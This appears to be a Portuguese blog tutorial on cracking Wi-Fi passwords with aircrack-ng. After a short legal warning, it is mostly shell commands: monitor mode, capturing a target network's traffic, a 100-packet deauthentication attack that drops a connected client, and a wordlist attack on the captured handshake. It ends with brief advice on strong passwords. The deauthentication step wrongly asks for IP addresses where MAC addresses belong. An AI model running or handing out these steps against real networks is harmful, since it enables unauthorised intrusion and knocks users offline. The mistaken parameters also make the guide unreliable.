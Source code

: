 ```yaml
---
title:  "Invasão de Redes Wireless com Aircrack-NG"
categories: seguranca
tags: aircrack-ng wifi linux
image: aircrack-ng.png
description: Veja como instalar e utilizar softwares para descobrir senhas de Wi-Fi.
---
```


### ATENÇÃO!

Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.

Invadir dispositivo alheio, conectado ou não a rede de computadores, mediante violação de segurança com o fim de obter informações sem autorização é crime. No Brasil, pode acarretar em 1 ano de reclusão e multa.

Aproveite este conhecimento para progredir de maneira justa e sem prejudicar outras pessoas.

## Requerimentos

Para a realização deste tutorial será necessário um computador com o Sistema Operacional Debian ou variantes e que a máquina possua placa de rede wireless ou adaptador wi-fi, e acesso _root_.

Também é necessário que você possua uma _wordlist_ disponível em seu ambiente.

### Informação

Wordlists são arquivos que possuem várias palavras frequentemente utilizadas.

Você pode escrever o seu próprio arquivo ou encontrar exemplos através de uma simples busca no Google.

Precisará também de um ponto de acesso wireless, no qual você não esteja conectado com a interface de teste.

Para ter certeza sobre a existência de interfaces wi-fi, faça a verificação:

```sh
iwconfig
```

Se o dispositivo estiver conectado, mas não for listado; inicie a interface:

```sh
ifconfig wlan0 up
```

Veja as redes que estão ao seu alcance:

```sh
iwlist wlan0 scanning
```

Anote o Mac Adress e o Canal da rede alvo, pois precisará deles na sequência.

## Instalação

Para monitorar e capturar pacotes de um cliente da rede, precisaremos do **Aircrack-ng**:

```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Iniciando o Monitoramento

Estando com o aircrack-ng instalado, podemos começar:

Matando processos que podem causar incompatibilidades

```sh
airmon-ng check kill
```

Iniciando o monitoramento

```sh
airmon-ng start wlan0
```

## Listando Clientes

Pegue os dados do seu alvo e insira-os nas opções entre chaves (apague as chaves depois), abaixo:

```sh
airodump-ng mon0 --bssid {MAC_ADDRESS} --channel {CHANNEL} --write wifi.test
```

Depois disso, o scanner lhe mostrará uma lista com todas as Wokstations (clientes) que estão conectados na rede.

## Capturando Dados

Abra um novo terminal, escolha uma workstation ativa e capture os pacotes dela (ela irá cair durante esse processo):

```sh
aireplay-ng -0 100 -a {GATEWAY IP} -c {WORKSTATION IP} mon0 --ignore-negative-one
```

## Descobrindo a Senha

Através dos dados capturados, tente descobrir a senha:

```sh
aircrack-ng wifi.test-01.cap -w wordlist.txt
```

## Como impedir esse tipo de invasão?

Sempre utilize senhas complexas combinando caracteres especiais, como **!@#$%¨&#038;*()_+§**, e se possível configure como oculto o SSID da rede (embora o Aircrack-ng detectá-la) para que ela não seja vista como um possível alvo de crackers.

## Atualização

Use **wifite** e poupe seu tempo!
